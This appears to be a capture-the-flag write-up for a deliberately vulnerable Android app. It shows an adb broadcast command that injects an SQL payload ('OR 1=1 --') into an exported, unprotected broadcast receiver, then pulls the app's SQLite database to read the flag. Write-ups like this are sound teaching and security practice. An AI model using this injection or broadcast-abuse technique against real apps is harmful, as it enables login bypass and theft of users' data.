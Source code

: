 ```java
```

We can use this **adb** shell command for **inject** the **SQLi**
```bash
adb shell 'am broadcast -a com.bobbytables.ctf.myapplication_INTENT -e username "\" OR 1=1 --" -e password asdasdas'
```
Notice that the **output** from **logcat** is **Incorrect password**. Which means that the **user `"\" OR 1=1 --"` is valid**.

So, now we just need **make** an **malicious** app that abuse broadcast and get the content via **ADB logcat**.
Why we can do this?
Because there are an **public Broadcast receiver**.
```java
IntentFilter filter = new IntentFilter(); filter.addAction("com.bobbytables.ctf.myapplication_INTENT"); LoginReceiver receiver = new LoginReceiver(); registerReceiver(receiver, filter);
```

This intent register an **receiver** that listening broadcast for the action `com.bobbytables.ctf.myapplication_INTENT`.
So, this make that **every app installed in the device** can **send** an **broadcast** with this action.

And, the **Broadcast Receiver** from **LoginReceiver** have some vulnerabilities, for example, this not validate which **app** coming the **Intent**.
And the **Broadcast** don't have **output restrictions**. After of the **login process**, the **LoginReceiver** send a **new intent** (`com.bobbytables.ctf.myapplication_OUTPUTINTENT`) that is **another no restricted broadcast**. Which **any app installed** can **intercept the broadcast** for obtain the result of the operation.

#### Note
The intention of this **CTF** is get the of a way the **column** of the **database**.
I reinstall the **app** for create a **admin** user in the **DB**
```bash
adb pull /data/data//bobbytables.ctf.myapplication/databases/LocalDatabase.db
```

```bash
sqlite3 LocalDatabase.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> select * from users;
1|admin|608dc6110462ee35488edf83443fbbc3|ctf{An injection is all you need to get this flag - 608dc6110462ee35488edf83443fbbc3}|15115
sqlite>
```

So, the flag in my case is `608dc6110462ee35488edf83443fbbc3`.
You can **create a admin user** but the **flag** will be **different** because we have a **salt** under **31337**
```java
 public long insert(String username, String password) {  
        Random rand = new Random();  
        int salt = rand.nextInt(31337);  
        String password_hash = Utils.calcHash(password + new Integer(salt).toString());  
        SQLiteDatabase db = getWritableDatabase();  
        ContentValues values = new ContentValues();  
        values.put(LocalDatabase.UserEntry.COLUMN_NAME_USERNAME, username);  
        values.put(LocalDatabase.UserEntry.COLUMN_NAME_PASSWORD, password_hash);  
        values.put(LocalDatabase.UserEntry.COLUMN_NAME_FLAG, "ctf{An injection is all you need to get this flag - " + password_hash + "}");  
        values.put(LocalDatabase.UserEntry.COLUMN_NAME_SALT, new Integer(salt).toString());  
        long rowId = db.insert(LocalDatabase.UserEntry.TABLE_NAME, null, values);  
        db.close();  
        return rowId;  
    }
```
